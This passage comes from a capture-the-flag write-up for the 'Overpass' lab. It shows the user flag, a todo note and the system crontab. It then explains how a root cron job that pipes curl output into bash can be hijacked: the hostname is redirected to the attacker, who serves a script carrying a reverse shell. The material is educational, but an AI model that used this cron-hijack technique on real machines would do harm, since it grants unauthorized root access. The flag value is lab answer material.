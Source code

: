 ```
todo.txt  user.txt
```
- Let's cat the `user.txt` file.
```
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```
## Answer
```
thm{65c1aaf000506e56996822c6281e6bf7}
```

## Question
> Escalate your privileges and get the flag in root.txt
- There was another file, called `todo.txt`. Let's see what is in it.
```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
- So we know that the builds are not going to the website.
- Let's check the CRON jobs.
```
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
- We have to change the IP address that is mapped to `overpass.thm` to our IP address so that when the `curl overpass.thm/downloads/src/buildscript.sh | bash` command is run, it will run the file hosted by us. 
![[9 8.png]]
- Now we have to create the necessary directories inside `/var/www/html/`.
```
$ mkdir downloads                
$ cd downloads         
$ mkdir src      
$ cd src      
```
- Now let's create a `buildscript.sh` file.
- We need to include a reverse shell in it.
![[10 7.png]]